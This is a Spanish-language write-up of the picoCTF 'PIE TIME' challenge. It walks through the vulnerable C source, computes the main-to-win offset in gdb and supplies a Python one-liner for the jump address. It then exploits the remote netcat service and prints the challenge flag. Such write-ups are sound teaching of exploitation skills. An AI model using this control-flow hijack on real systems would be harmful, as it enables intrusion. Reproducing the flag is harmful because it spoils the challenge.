


# PIE TIME PicoCTF (Easy)

## Contexto de la maquina

### Trayectoria PIE TIME

<figure><figcaption></figcaption></figure>

### Descripción[^1]

**PIE TIME** es un reto de **ingeniería inversa y explotación binaria** centrado en la manipulación del flujo de ejecución de un programa compilado con **PIE (Position Independent Executable)**. El binario permite al usuario introducir una dirección de memoria arbitraria que posteriormente es ejecutada como puntero a función, lo que conduce a una **ejecución de código arbitraria**.

**Objetivo del reto**

Forzar el flujo de ejecución del programa para saltar a una función interna (`win()`), la cual imprime el contenido del archivo `flag.txt`.

**Tipo de reto**

* Binary Exploitation
* Ingeniería inversa
* Control Flow Hijacking
* PIE bypass lógico (sin ASLR brute-force)

**Habilidades y técnicas evaluadas**

* Análisis de código fuente en C
* Comprensión de punteros a funciones
* Control Flow Hijacking
* Cálculo de offsets en binarios PIE
* Uso de `gdb`
* Explotación remota vía `netcat`

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

## Despliegue del CTF

En la propia pagina buscaremos el `CTF`, dentro veremos un boton llamado `Launch Instance`, una ves desplegado nos aparecera `here` donde se encuentra el `dominio` junto con el puerto asociado al mismo.

El objetivo de estos `CTFs` es encontrar la `flag` final.

## Ingeniería Inversa

El reto nos proporciona directamente el **binario** y su **código fuente**, los cuales podemos descargar mediante `wget` una vez generada la URL del desafío.

```shell
wget "http://<URL>/vuln"
wget "http://<URL>/vuln.c"
```

Una vez descargados los archivos, procedemos a analizar el código fuente `vuln.c`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered
  
  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

**Análisis del código:**

1. **`main()`**:
   * Registra un manejador para `SIGSEGV` (segmentation fault).
   * **Muestra la dirección de memoria de `main`** (esto es una pista importante).
   * Pide al usuario que introduzca una **dirección hexadecimal**.
   * Convierte esa dirección en un puntero a función y la ejecuta.
2. **`win()`**:
   * Función que abre y lee `flag.txt`.
   * **Nunca es llamada directamente** por el flujo normal del programa.
3. **`segfault_handler()`**:
   * Solo imprime un mensaje y sale si ocurre un segfault.

**Vulnerabilidad:**

El programa permite al usuario introducir una dirección arbitraria que será ejecutada sin ningún tipo de validación:

```c
void (*foo)(void) = (void (*)())val;
foo();  // ¡Ejecuta cualquier dirección que le des!
```

Esto implica que **cualquier dirección válida dentro del binario puede ser ejecutada**, permitiendo redirigir el flujo de ejecución hacia funciones internas como `win()`.

## Control Flow Hijack (Binary)

<figure><figcaption></figcaption></figure>

Dado que el binario está compilado con **PIE**, las direcciones de memoria cambian en cada ejecución. Sin embargo, el **offset entre funciones permanece constante**.

El propio programa nos proporciona la dirección de `main()`, por lo que el siguiente paso es calcular el **offset entre `main` y `win`**.

Abrimos el binario con `gdb`:

```shell
gdb ./vuln
```

Dentro de `gdb`, imprimimos las direcciones de ambas funciones:

```
print win
print main
```

Resultado:

```
$1 = {<text variable, no debug info>} 0x12a7 <win>
$2 = {<text variable, no debug info>} 0x133d <main>
```

Calculamos el offset:

```
0x133d - 0x12a7 = 0x96
```

Creamos un pequeño one-liner en Python para calcular dinámicamente la dirección de `win()` a partir de la dirección filtrada de `main()`:

```shell
python3 -c "m=int(input('Dirección de main (ej: 0x55555555533d): '), 16); print(f'Dirección de win: {hex(m - 0x96)}')"
```

Resultado:

```
Dirección de main (ej: 0x55555555533d): 0x133d
Dirección de win: 0x12a7
```

Para validar que el cálculo del **offset** es correcto, realizamos una comprobación rápida en entorno local. Dado que el binario está compilado con **PIE**, la dirección base cambia en cada ejecución, por lo que el cálculo debe hacerse **en tiempo de ejecución**. La idea es ejecutar el binario, capturar la dirección de `main()` que se muestra, y en una segunda terminal calcular dinámicamente la dirección de `win()` aplicando el offset previamente obtenido.

### Comprobación en local

Antes de proceder con la explotación, creamos un archivo `flag.txt` para verificar que la ejecución de `win()` funciona correctamente en local.

```shell
echo "CTF{this_is_a_test_flag}" > flag.txt
```

Con esto preparado, procedemos a ejecutar el binario vulnerable:

```shell
chmod +x vuln
./vuln
```

Resultado:

```
Address of main: 0x56032f4ce33d
Enter the address to jump to, ex => 0x12345:
```

En otra terminal, utilizamos el one-liner en Python para calcular la dirección de `win()` a partir de la dirección filtrada de `main()`:

```shell
python3 -c "m=int(input('Dirección de main (ej: 0x55555555533d): '), 16); print(f'Dirección de win: {hex(m - 0x96)}')"
```

Resultado:

```
Dirección de main (ej: 0x55555555533d): 0x56032f4ce33d
Dirección de win: 0x56032f4ce2a7
```

Una vez obtenida la dirección correcta (`0x56032f4ce2a7`), la introducimos en el programa:

```
Your input: 56032f4ce2a7
You won!
CTF{this_is_a_test_flag}
```

Esto confirma que la explotación funciona correctamente en **entorno local** y que el cálculo del offset es válido. Sin embargo, este paso solo sirve como prueba, ya que el objetivo final es explotar el **servicio remoto** proporcionado por el reto.

### Explotación binario del reto

El propio desafío nos indica lo siguiente:

```
Can you try to get the flag? Beware we have PIE! Connect to the program with netcat:

$ nc rescued-float.picoctf.net 55643
```

Al conectarnos mediante `netcat`, el binario remoto se ejecuta automáticamente, por lo que repetimos el mismo procedimiento para obtener la flag real.

### Arbitrary Code Execution via Function Pointer Overwrite

Nos conectamos al servicio remoto:

```shell
nc rescued-float.picoctf.net 55643
```

Resultado:

```
Address of main: 0x5cabb534733d
Enter the address to jump to, ex => 0x12345:
```

De nuevo, calculamos dinámicamente la dirección de `win()` utilizando el mismo one-liner:

```shell
python3 -c "m=int(input('Dirección de main (ej: 0x55555555533d): '), 16); print(f'Dirección de win: {hex(m - 0x96)}')"
```

Resultado:

```
Dirección de main (ej: 0x55555555533d): 0x5cabb534733d
Dirección de win: 0x5cabb53472a7
```

Introducimos la dirección calculada (`0x5cabb53472a7`) en el binario remoto:

```
Your input: 5cabb53472a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_28a46dcd}
```

Con esto confirmamos que la explotación funciona correctamente también en remoto y obtenemos la **flag final**.

> flag.txt

```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_28a46dcd}
```

[^1]: 
